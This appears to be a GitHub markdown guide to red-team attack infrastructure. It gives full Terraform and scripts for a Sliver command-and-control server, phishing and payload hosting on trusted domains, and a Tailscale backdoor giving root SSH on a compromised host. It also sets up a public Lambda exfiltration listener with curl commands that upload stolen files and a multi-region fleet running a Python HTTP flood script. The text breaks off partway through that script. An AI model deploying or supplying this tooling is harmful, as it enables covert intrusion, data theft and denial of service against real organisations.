

# RED TEAM INFRASTRUCTURE


This document contains guidelines on deploying infrastructure that can be useful for red teaming campaigns.  

## Table of Contents

- [RED TEAM INFRASTRUCTURE](#red-team-infrastructure)
  - [Table of Contents](#table-of-contents)
  - [Deploy a Sliver server on AWS](#deploy-a-sliver-server-on-aws)
  - [Deploy a static website via AWS S3 and CloudFront](#deploy-a-static-website-via-aws-s3-and-cloudfront)
  - [Deploy a static website via GitHub Pages](#deploy-a-static-website-via-github-pages)
  - [Maintain persistent access with Tailscale](#maintain-persistent-access-with-tailscale)
  - [Deploy a Lambda function for data exfiltration](#deploy-a-lambda-function-for-data-exfiltration)
  - [Deploy AWS Infrastructure for DDoS Engagements](#deploy-aws-infrastructure-for-ddos-engagements)
  - [Deploy Azure Infrastructure for DDoS Engagements](#deploy-azure-infrastructure-for-ddos-engagements)
  - [Deploy a GPU-based cloud instance for password cracking](#deploy-a-gpu-based-cloud-instance-for-password-cracking)


## Deploy a Sliver server on AWS 

Sliver is an open-source, cross-platform adversary emulation and red team framework.  
The following instructions are for provisioning a Sliver server via AWS EC2.  
For a quick-start on how to use sliver, take a look at [*this*](https://github.com/R3DRUN3/sploitcraft/tree/main/c2/sliver).  
To go deeper into Sliver functionalities, read the [*official docs*](https://sliver.sh/).  

generate the following ssh keys:   
```sh
 ssh-keygen -t rsa -b 4096 -C "aws-sliver-server" -f ~/.ssh/aws-sliver-server
```

Ensure the correct permissions are set for the keys:  
```sh
chmod 600 ~/.ssh/aws-sliver-server
chmod 644 ~/.ssh/aws-sliver-server.pub
```

Now prepare the following terraform files.  
main.tf:  
```hcl
terraform {
  required_version = ">= 1.10.0"
  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = ">= 5.0.0"
    }
  }

  backend "s3" {
    bucket  = "<your-s3-tf-status-bucket-name>"
    key     = "aws-sliver-server"
    region  = "eu-north-1"
    encrypt = true
  }
}

provider "aws" {
  region = "eu-north-1"
}

resource "aws_security_group" "sliver_sg" {
  name        = "sliver-c2-security-group"
  description = "Allow SSH and Sliver C2 ports"

  ingress {
    description = "Allow SSH"
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  ingress {
    description = "Allow mTLS service"
    from_port   = 8888
    to_port     = 8888
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  ingress {
    description = "Allow WireGuard service"
    from_port   = 51820
    to_port     = 51820
    protocol    = "udp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  ingress {
    description = "Allow HTTP service"
    from_port   = 80
    to_port     = 80
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  ingress {
    description = "Allow HTTPS service"
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    description = "Allow all outbound traffic"
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}

resource "aws_instance" "sliver_server" {
  ami           = "ami-08eb150f611ca277f" # Ubuntu 22.04 AMI
  instance_type = "t3.micro"
  key_name      = "aws-sliver-server"
  security_groups = [aws_security_group.sliver_sg.name]

  user_data = <<-EOF
              #!/bin/bash
              set -e

              # Log output for debugging
              exec > /var/log/user_data.log 2>&1

              # Set environment variable to avoid prompts during package upgrades
              export DEBIAN_FRONTEND=noninteractive

              # Update and upgrade packages
              apt update -y
              apt upgrade -y

              # Install required tools
              apt install -y curl mingw-w64

              # Install Sliver
              curl -fsSL https://sliver.sh/install | bash

              # Enable and start Sliver service
              systemctl enable sliver
              systemctl start sliver
  EOF

  tags = {
    Name = "C2-Server"
  }
}

resource "aws_key_pair" "sliver_key" {
  key_name   = "aws-sliver-server"
  public_key = file("~/.ssh/aws-sliver-server.pub")
}

output "sliver_server_public_ip" {
  value = aws_instance.sliver_server.public_ip
  description = "The public IP address of the Sliver C2 server."
}

```

output.tf:  
```hcl
output "instance_id" {
  value       = aws_instance.sliver_server.id
  description = "The ID of the EC2 instance."
}

output "public_ip" {
  value       = aws_instance.sliver_server.public_ip
  description = "The public IP address of the Sliver server."
}

```


Init terraform and generate plan:  
```sh
terraform init && terraform plan
```  

Review the plan and, if you are ok with it, launch the provisioning:  
```sh
terraform apply -auto-approve  
```  

Once the provisioning is complete, you will get an output similar to the following:  
```sh
Outputs:

instance_id = "i-061e796fd829307d0"
public_ip = "16.171.132.15"
sliver_server_public_ip = "16.171.132.15"
```  

Now you can connect to your sliver server via the following command:  
```sh
ssh -i ~/.ssh/aws-sliver-server ubuntu@<public_ip>
```  


To destroy everything run:  
```sh
terraform destroy -auto-approve
```


## Deploy a static website via AWS S3 and CloudFront  

The following Terraform configuration enables the seamless deployment of a static website to AWS S3 in a single step.   
The only prerequisites are an AWS account and an HTML landing page for the site (*index.hml* file, in the same root as the terraform manifest).  

This setup is particularly useful for red teaming campaigns, serving multiple purposes such as hosting payloads, creating phishing pages or redirects.  


The resulting website already comes with TLS termination out of the box and it's hosted on the "*.cloudfront.net*" domain:  
AWS domains are typically not blocked or filtered by corporate firewalls.  


Terraform manifest (*main.tf*):  

```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "random_string" "bucket_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "aws_s3_bucket" "static_site" {
  bucket = "your-bucket-name-here-${random_string.bucket_suffix.result}"
}

resource "aws_s3_object" "terraform_index" {
  bucket = aws_s3_bucket.static_site.id
  key    = "index.html"
  source = "index.html"
  content_type = "text/html"
  etag = filemd5("index.html")
}

resource "aws_s3_bucket_ownership_controls" "example" {
  bucket = aws_s3_bucket.static_site.id

  rule {
    object_ownership = "BucketOwnerPreferred"
  }
}

resource "aws_s3_bucket_website_configuration" "blog" {
  bucket = aws_s3_bucket.static_site.id
  index_document {
    suffix = "index.html"
  }
}

resource "aws_s3_bucket_public_access_block" "public_access" {
  bucket = aws_s3_bucket.static_site.id

  block_public_acls       = true
  ignore_public_acls      = true
  block_public_policy     = true
  restrict_public_buckets = true
}

# S3 bucket policy for CloudFront access
resource "aws_cloudfront_origin_access_control" "cf-s3-oac" {
  name                              = "CloudFront-S3-OAC"
  description                       = "CloudFront S3 OAC"
  origin_access_control_origin_type = "s3"
  signing_behavior                  = "always"
  signing_protocol                  = "sigv4"
}

resource "aws_s3_bucket_policy" "static_site_bucket_policy" {
  bucket = aws_s3_bucket.static_site.id

  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Effect = "Allow"
        Principal = {
          Service = "cloudfront.amazonaws.com"
        }
        Action = "s3:GetObject"
        Resource = "${aws_s3_bucket.static_site.arn}/*"
        Condition = {
          StringEquals = {
            "AWS:SourceArn" = aws_cloudfront_distribution.cf-dist.arn
          }
        }
      }
    ]
  })
}

resource "aws_cloudfront_distribution" "cf-dist" {
  enabled             = true
  default_root_object = "index.html"

  origin {
    domain_name              = aws_s3_bucket.static_site.bucket_regional_domain_name
    origin_id                = aws_s3_bucket.static_site.bucket
    origin_access_control_id = aws_cloudfront_origin_access_control.cf-s3-oac.id
  }

  default_cache_behavior {
    allowed_methods  = ["GET", "HEAD"]
    cached_methods   = ["GET", "HEAD"]
    target_origin_id = aws_s3_bucket.static_site.bucket
    forwarded_values {
      query_string = false

      cookies {
        forward = "none"
      }
    }
    viewer_protocol_policy = "redirect-to-https"
    min_ttl                = 0
    default_ttl            = 3600
    max_ttl                = 86400
  }

  price_class = "PriceClass_All"

  restrictions {
    geo_restriction {
      restriction_type = "whitelist"
      locations        = ["IT"]
    }
  }

  viewer_certificate {
    cloudfront_default_certificate = true
  }

  tags = {
    Name = "cloudfront-distribution"
  }
}

output "website_url" {
  value = "https://${aws_cloudfront_distribution.cf-dist.domain_name}"
}

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  

Example static website:  
  

## Deploy a static website via GitHub Pages  

Please note that you can achieve the same result by leveraging other trusted providers, like Github.  

You can deploy a static website on-deman via Github Pages with the following terraform file:  
```hcl
provider "github" {
  token = "<your-github-token-here>" # do not hardcode secrets, manage this via a tfvars file
}

variable "repo_owner" {
  description = "GitHub username or organization name for the repository owner."
  type        = string
}

resource "random_string" "repo_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "github_repository" "static_site_repo" {
  name        = "static-site-${random_string.repo_suffix.result}" # change website name here
  description = "A static website deployed on GitHub Pages"

  visibility = "public"
  auto_init   = true

  pages {
    source {
      branch = "main"
    }
  }
}

resource "github_repository_file" "index_html" {
  repository = github_repository.static_site_repo.name
  file       = "index.html"
  content    = file("index.html")
  branch     = "main"
}

output "github_pages_url" {
  value = "https://${var.repo_owner}.github.io/${github_repository.static_site_repo.name}/"
}

output "notice" {
  value = "The website might take up to a minute to become reachable at the above URL."
}

```  

## Maintain persistent access with Tailscale  

The following is a proof of concept of how to maintain persistent access on a compromised machine (Linux) by leveraging [*Tailscale*](https://github.com/tailscale/tailscale).  


> [!NOTE]  
> The same mechanism can also be used to enable external access to a backdoor device (e.g., a Raspberry Pi) installed within the client's internal network.  

 
> [!WARNING]  
> You will need root privileges on the target machine.  


Tailscale, a mesh VPN built on [*WireGuard*](https://github.com/WireGuard), facilitates secure, encrypted communication between devices by creating a virtual private network (VPN) across the public internet.  
In a red teaming engagement, Tailscale can be installed on a compromised machine within the customer network to maintain persistent access:  
the compromised device becomes part of the attacker's Tailnet, allowing remote connectivity without exposing traffic  
to the customer's firewall or intrusion detection systems, as it leverages point-to-point encryption.  
Tailscale's NAT traversal ensures seamless connections even across complex network topologies, enhancing stealth and persistence in post-exploitation phases.  
Due to its nature, the techniques, and protocols it employs, Tailscale is not trivial to block.  
Therefore, it is likely that it will not be restricted by the company's network and [*should work out-of-the-box in most cases*](https://tailscale.com/kb/1082/firewall-ports).  

First of all it is recommended to create a new, disposable Google (or Github) Account for every red teaming campaign.  
Once you have a google account associated to the campaign you can use that in order to [*create a new Tailscale account*](https://login.tailscale.com/start).    

Skip the introduction and go straight to the [*settings/oauth*](https://login.tailscale.com/admin/settings/oauth) section in order to create a new oauth client with full access:  

  

Save the generated client ID and Secret, you will need them in order to enable access from the compromised machine to your tailnet.  
Now go to the [*Access Controls*](https://login.tailscale.com/admin/acls/file) Tab of the Tailscale Admin panel, delete the current ACL configuration and paste the following:  

```json
 
{
  "acls": [
    {
      "action": "accept",
      "dst": [
        "*:*"
      ],
      "src": [
        "*"
      ]
    },
    {
      "action": "accept",
      "dst": [
        "tag:backdoor:*"
      ],
      "src": [
        "autogroup:admin"
      ]
    }
  ],
  "ssh": [
    {
      "action": "accept",
      "dst": [
        "tag:backdoor"
      ],
      "src": [
        "autogroup:admin"
      ],
      "users": [
        "autogroup:nonroot",
        "root"
      ]
    }
  ],
  "tagOwners": {
    "tag:backdoor": [
      "autogroup:admin"
    ]
  }
}
```  
If you want, you can also automate this configuration via the following terraform manifest:
```hcl
terraform {
  required_providers {
    tailscale = {
      source  = "tailscale/tailscale"
      version = "0.16.2"
    }
  }
}

provider "tailscale" {
  oauth_client_id = var.oauth_client_id
  oauth_client_secret = var.oauth_client_secret
}

resource "tailscale_acl" "as_json" {
  acl = jsonencode({
    tagOwners = {
      "tag:backdoor" = ["autogroup:admin"]
    },
    
    acls = [
      {
        action = "accept",
        src    = ["*"],
        dst    = ["*:*"]
      },
      {
        action = "accept",
        src    = ["autogroup:admin"],
        dst    = ["tag:backdoor:*"]
      }
    ],
    
    ssh = [
      {
        action = "accept",
        src    = ["autogroup:admin"],
        dst    = ["tag:backdoor"],
        users  = ["autogroup:nonroot", "root"]
      }
    ]
  })
}
```  


At this point you are able to connect the compromised machine to your tailnet.  
In order to do that, you will need the following bash script:   
```sh
#!/bin/bash

# Check if an argument (auth key) is provided
if [ -z "$1" ]; then
  echo "Usage: $0 <oauth-key>"
  exit 1
fi

OAUTH_KEY=$1

# Install Tailscale
sudo curl -fsSL https://tailscale.com/install.sh | sh

# Start Tailscale with the provided auth key and enable SSH
sudo tailscale up --auth-key=$OAUTH_KEY --advertise-tags=tag:backdoor --ssh

# Show Tailscale status
sudo tailscale status
```  


Launch the script with the following command:  

```console
sh tailscale.sh <YOUR-TAILSCALE-OAUTH-KEY-HERE>
```  

If everything went good, you should see an output similar to the following:  
```console
...
...
Installation complete! Log in to start using Tailscale by running:

sudo tailscale up
100.118.41.91   target-machine-name-here          xivivixi936@ linux   -
```  

At this point, you can see the node in the admin console and even connect to it via ssh, directly from your browser:  
  
  

You can also connect to the compromised system from whatever machine that is running Tailscale and it is authenticated to your tailnet.  
In the screenshot below, you can see a windows machine in your own private network that seamlessly connect to the  
compromised machine inside the customer private network (you can use IP address or Tailscale DNS name resolution):  

  


  

## Deploy a Lambda function for data exfiltration  

The following Terraform configuration enables the seamless, on-demand deployment of a disposable, public serverless listener that can be leveraged for data exfiltration during red teaming campaigns.    
The exfiltrated files are then stored on an S3 bucket: you can upload any single file (e.g., text, binary, images, etc.) or full directories (the directory tree will be preserved).  


main.tf:  
```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "aws_iam_role" "lambda_role" {
  name = "lambda_s3_execution_role"
  assume_role_policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Action = "sts:AssumeRole",
        Effect = "Allow",
        Principal = {
          Service = "lambda.amazonaws.com"
        }
      }
    ]
  })
}

resource "aws_iam_policy" "lambda_policy" {
  name = "lambda_s3_access_policy"
  policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Effect = "Allow",
        Action = "s3:PutObject",
        Resource = "arn:aws:s3:::${aws_s3_bucket.exfil_bucket.bucket}/*"
      },
      {
        Effect = "Allow",
        Action = "logs:*",
        Resource = "arn:aws:logs:*:*:*"
      }
    ]
  })
}

resource "aws_iam_role_policy_attachment" "lambda_policy_attach" {
  role       = aws_iam_role.lambda_role.name
  policy_arn = aws_iam_policy.lambda_policy.arn
}

resource "aws_s3_bucket" "exfil_bucket" {
  bucket = "data-exfiltration-bucket-${random_string.suffix.result}"
  
  force_destroy = true

  tags = {
    Name = "DataExfilBucket"
  }
}

resource "random_string" "suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

data "archive_file" "lambda_zip" {
  type        = "zip"
  source_dir  = "${path.module}/lambda_function"
  output_path = "${path.module}/lambda_function_payload.zip"
}

resource "aws_lambda_function" "exfil_lambda" {
  function_name = "DataExfiltrationFunction"
  handler       = "lambda_function.lambda_handler"
  role          = aws_iam_role.lambda_role.arn
  runtime       = "python3.9"

  filename = data.archive_file.lambda_zip.output_path

  environment {
    variables = {
      BUCKET_NAME = aws_s3_bucket.exfil_bucket.bucket
    }
  }

  tags = {
    Name = "DataExfiltrationLambda"
  }
}

resource "aws_lambda_function_url" "lambda_url" {
  function_name       = aws_lambda_function.exfil_lambda.function_name
  authorization_type  = "NONE"
}

resource "aws_lambda_permission" "public_lambda_url_permission" {
  statement_id  = "AllowPublicAccess"
  action        = "lambda:InvokeFunctionUrl"
  function_name = aws_lambda_function.exfil_lambda.function_name
  principal     = "*"
  function_url_auth_type = "NONE"
}

output "lambda_function_url" {
  value = aws_lambda_function_url.lambda_url.function_url
}
```  

Lambda function code (python):
```python
import boto3
import os
import time
import zipfile
import io
import base64

s3 = boto3.client('s3')
bucket_name = os.environ['BUCKET_NAME']

def lambda_handler(event, context):
    try:
        # If the body is base64 encoded, decode it
        if event.get("isBase64Encoded", False):
            file_content = base64.b64decode(event['body'])
        else:
            file_content = event['body'].encode('utf-8')

        # Get the filename from headers (or set a default)
        filename = event['headers'].get('filename', f"exfiltrated-file-{time.strftime('%Y-%m-%d-%H-%M-%S', time.gmtime())}")

        # Check if the file is a zip (assume directory if it is a zip file)
        if filename.endswith(".zip"):
            # Treat it as a compressed directory
            handle_zip(file_content, filename)
        else:
            # It's a single file, upload directly
            upload_file_to_s3(file_content, filename)

        return {
            'statusCode': 200,
            'body': f"File {filename} stored successfully"
        }

    except Exception as e:
        return {
            'statusCode': 500,
            'body': f"Error: {str(e)}"
        }

def upload_file_to_s3(file_content, filename):
    """Helper function to upload a file to S3"""
    s3.put_object(Bucket=bucket_name, Key=filename, Body=file_content)

def handle_zip(file_content, zip_filename):
    """Helper function to handle a zip file by extracting and uploading its contents"""
    with io.BytesIO(file_content) as zip_buffer:
        with zipfile.ZipFile(zip_buffer, 'r') as zip_ref:
            for file_info in zip_ref.infolist():
                # Skip directories, only process files
                if not file_info.is_dir():
                    # Extract the file from the zip
                    with zip_ref.open(file_info) as extracted_file:
                        file_data = extracted_file.read()
                        # Upload each file to S3 with its full path
                        upload_file_to_s3(file_data, file_info.filename)

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  
Once the deployment is complete, terraform will output the public lambda url, for example:  
```sh
lambda_function_url = "https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws/"
```  
Now you can proceede to exfiltrate files and directories.
Example for single file:  
```sh
curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_single_file.txt" --data-binary @test_single_file.txt
```  

Example for a directory:
```sh
zip -r test_folder.zip test_folder \
&& curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_folder.zip" --data-binary @test_folder.zip
```  

You can later retrieve all the exfiltrated files from the S3 bucket:  
  


## Deploy AWS Infrastructure for DDoS Engagements


Although quite rare, clients occasionally request distributed denial-of-service (DDoS) testing activities.  
Today, with the hardware resources and bandwidth available to most services, it's not easy to inflict damage through a DDoS attack, so a substantial level of firepower is essential.   

Below, a proof of concept using a Terraform manifest to provision a geographically distributed fleet of servers on AWS, specifically designed for launching DDoS campaigns.  

> [!CAUTION]  
> Ensure the provider's current policies permit such activities, and monitor any potential costs closely.  

here is the `main.tf` manifest:  
```hcl
terraform {
  required_version = "= 1.9.8"

  # Infra state bucket (created manually on AWS)
  backend "s3" {} # specify the backend bucket

  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "= 5.68.0"
    }
  }
}


# AWS provider for the default region (eu-north-1)
provider "aws" {
  alias  = "eu-north-1"
  region = "eu-north-1"
}

# AWS provider for another region (eu-west-1)
provider "aws" {
  alias  = "eu-west-1"
  region = "eu-west-1"
}

# AWS provider for another region (ap-south-1)
provider "aws" {
  alias  = "ap-south-1"
  region = "ap-south-1"
}

# Create the key pair from the public key
resource "aws_key_pair" "redteam_key" {
  key_name   = "aws-ddos-redteam-infra"
  public_key = file("~/.ssh/aws-ddos-redteam-infra.pub")
}

# Security group for eu-north-1
resource "aws_security_group" "mhddos_sg_eu_north" {
  provider    = aws.eu-north-1
  name        = "mhddos_sg_eu_north"
  description = "Security group for MHDDoS instances in eu-north-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}

# Security group for eu-west-1
resource "aws_security_group" "mhddos_sg_eu_west" {
  provider    = aws.eu-west-1
  name        = "mhddos_sg_eu_west"
  description = "Security group for MHDDoS instances in eu-west-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}

# Security group for ap-south-1
resource "aws_security_group" "mhddos_sg_ap_south" {
  provider    = aws.ap-south-1
  name        = "mhddos_sg_ap_south"
  description = "Security group for MHDDoS instances in ap-south-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}


# Deploy EC2 instance in eu-north-1
resource "aws_instance" "mhddos_eu_north" {
  count         = 1
  provider      = aws.eu-north-1
  ami           = "ami-08eb150f611ca277f"  # Ubuntu 22.04 LTS AMI
  instance_type = "t3.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_eu_north.id]

  # Copy the Python script
  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  # Copy the service file to a temporary location
  provisioner "file" {
    source      = "./ddos_script.service"  # Local service file
    destination = "/home/ubuntu/ddos_script.service"  # Temporary location in the home directory

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  # Move the service file to /etc/systemd/system/ and start the service
  provisioner "remote-exec" {
    inline = [
      # Move the service file to the correct location with sudo
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",

      # Reload systemd to recognize the new service
      "sudo systemctl daemon-reload",

      # Start the service (this will run the script in the background)
      "sudo systemctl start ddos_script.service",

      # Enable the service to start on boot
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-EU-North"
  }
}

# Repeat for eu-west-1 and ap-south-1

resource "aws_instance" "mhddos_eu_west" {
  count         = 1
  provider      = aws.eu-west-1
  ami           = "ami-0d64bb532e0502c46"
  instance_type = "t2.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_eu_west.id]

  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "file" {
    source      = "./ddos_script.service"
    destination = "/home/ubuntu/ddos_script.service"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "remote-exec" {
    inline = [
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",
      "sudo systemctl daemon-reload",
      "sudo systemctl start ddos_script.service",
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-EU-West"
  }
}

resource "aws_instance" "mhddos_ap_south" {
  count         = 1
  provider      = aws.ap-south-1
  ami           = "ami-0dee22c13ea7a9a67"
  instance_type = "t2.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_ap_south.id]

  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "file" {
    source      = "./ddos_script.service"
    destination = "/home/ubuntu/ddos_script.service"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "remote-exec" {
    inline = [
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",
      "sudo systemctl daemon-reload",
      "sudo systemctl start ddos_script.service",
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-AP-South"
  }
}


# Output public IPs of each region
output "eu_north_instance_ips" {
  description = "The public IPs of the EU-North attacker instances"
  value       = aws_instance.mhddos_eu_north[*].public_ip
}

output "eu_west_instance_ips" {
  description = "The public IPs of the EU-West attacker instances"
  value       = aws_instance.mhddos_eu_west[*].public_ip
}

output "ap_south_instance_ips" {
  description = "The public IPs of the AP-South attacker instances"
  value       = aws_instance.mhddos_ap_south[*].public_ip
}

```  

Here is the `ddos_script.py` a "vanilla" python script to do volumetric Layer 7 (http) DoS against a specified target url (you can modify this script to use less resource-intensive techniques like [*slow loris*](https://en.wikipedia.org/wiki/Slowloris_(cyber_attack)):  

```python
# Simple python script for Layer 7 volumetric DoS

import aiohttp
import asyncio
import random
from datetime import datetime

# Global variables (modify these)
DRY_RUN = False  # Set to True to simulate requests
TARGET_URL = "https://your-target-here.com"
DURATION = 4  # Total duration of the attack in seconds
CONCURRENCY = 150  # Number of concurrent tasks
REQUEST_TIMEOUT = 3  # Timeout for each request in seconds
# List of User-Agent strings
USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 11; SM-G991B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.64 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36",
    "Mozilla/5.0 (Linux; Android 10; SM-A505FN) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Mobile Safari/537.36",
    "Mozilla/5.0 (iPad; CPU OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 8.0.0; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; ARM64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Linux; U; Android 10; en-US; SM-A217F Build/QP1A.190711.020) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
    "Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "Mozilla/5.0 (Linux; Android 11; Redmi Note 9 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 13_6_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36",
    "Mozilla/5.0 (X11; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0",
